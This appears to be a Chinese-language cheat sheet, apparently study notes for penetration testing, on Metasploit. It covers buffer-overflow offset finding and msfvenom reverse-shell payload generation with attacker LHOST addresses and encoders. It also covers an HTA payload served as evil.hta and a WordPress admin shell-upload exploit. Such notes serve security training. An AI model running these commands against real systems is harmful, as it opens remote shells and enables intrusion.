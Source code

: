 ### metaspolit
开源渗透测试框架
```Shell
# 我们使用更快的方式 使用msf-pattern_create 生成唯一序列
msf-pattern_create -h
# -l指定长度
msf-pattern_create -l 800
# 定位 确定偏移量 假如EIP内容为42306142
msf-pattern_offset -l 800 -q 42306142

# 使用Metasploit的NASM Shell脚本找到JMP ESP对应的操作码
msf-nasm_shell
nasm > jmp esp
# 输出为00000000  FFE4    jmp esp
# 0xFFE4 即为jmp esp 的操作码
nasm > add eax,12  #  00000000  83C00C    add eax,byte +0xc
nasm > jmp eax     #  00000000  FFE0      jmp eax

## 生成shellcode
# MSFvenom 是 Msfpayload 和 Msfencode 的组合 用它来生成payload
msfvenom -l payloads # 列出payload
# 生成windows反弹shell的payload # 参数-f c 指定C风格的shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c
# 发现生成结果中有坏字符0x00
# 使用高级多态编码器shikata_ga_nai对结果进行编码 -b指定坏字符
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
# Metasploit shellcode 默认的退出方法是ExitProcess API 这会杀死整个进程 一旦我们退出 存在漏洞的服务就会崩溃 这显然不是最好的结果 我们希望它保持运行 以便再次利用
# 可以尝试只关闭线程而不是进程 使用EXITFUNC=thread选项重新生成shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"
# -p指定负载 -b指定坏字符 -f指定风格这里是python直接复制到脚本中使用即可 -v指定变量名
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode

# 使用msf生成反弹shell负载 hta方式(HTML Applications)
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.7 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```
启动漏洞利用数据库
```Shell
sudo msfdb run
# 或
sudo msfconsole -q
```
搜索相关关键词
```Shell
> search wordpress admin
# 2   exploit/unix/webapp/wp_admin_shell_upload
```
选择模块
```Shell
> use exploit/unix/webapp/wp_admin_shell_upload
# 或 通过序号选择
> use 2
```
查看需要哪些参数
```Shell
> show options
# 重点关注必须设置的参数 及其默认值和描述
```
配置相关参数
```Shell
> set PASSWORD adam14
# PASSWORD => adam14
```